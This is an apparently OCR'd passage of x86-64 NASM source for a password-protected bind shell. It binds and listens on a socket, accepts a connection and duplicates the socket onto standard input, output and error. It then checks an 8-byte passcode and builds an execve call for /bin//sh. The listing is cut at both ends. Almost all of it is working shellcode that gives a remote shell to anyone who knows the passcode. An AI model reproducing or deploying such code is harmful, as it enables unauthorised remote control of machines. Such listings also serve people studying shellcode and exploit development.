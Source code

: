 ```nasm

	xor rdx, rdx
	add rdx, 0x10		; 10 is the decimal 16 that is the size of the address struct

	syscall			; exec bind syscall

	; listen
	xor rax, rax
	add al, 0x32		; 32 is the hex value of the decimal 50 for listen

	xor rsi, rsi
	
	syscall			; exec listen syscall

	; accept
	xor rax, rax
	add rax, 0x2b		; 2b is the hex value of the decimal 43 for accept

	syscall			; exec accept syscall

	mov rdi, rax		; acceptfd

	; dup2 loop
	xor rsi, rsi
	add rsi, 0x3		; set counter to 3

dup2loop:
	xor rax, rax
	add al, 0x21		; 21 is the hex value of the decimal 33 for dup2

	dec rsi			; decrement counter by 1

	syscall			; exec dup2 syscall
	
	jnz dup2loop		; jump to loop if ZF is not zero, else continue

	; read
        xor rax, rax    	; 0 for read syscall

        mov rsi, rsp

        xor rdx, rdx
        add dl, 8		; read size

        syscall			; exec read syscall

        mov rdi, rsp			; password in buffer

        mov rax, 0x64726f7773736150	; "drowssaP"
        
	scasq				; compare string in buffer with passcode
        jnz exit			; if they don't match jmp to exit

	; execve
	xor rax, rax
	push rax

	mov rbx, 0x68732f2f6e69622f	; "hs//nib/"
	push rbx

	mov rdi, rsp		; rdi points at "/bin//sh" at the top of the stack

	push rax		; NULL
```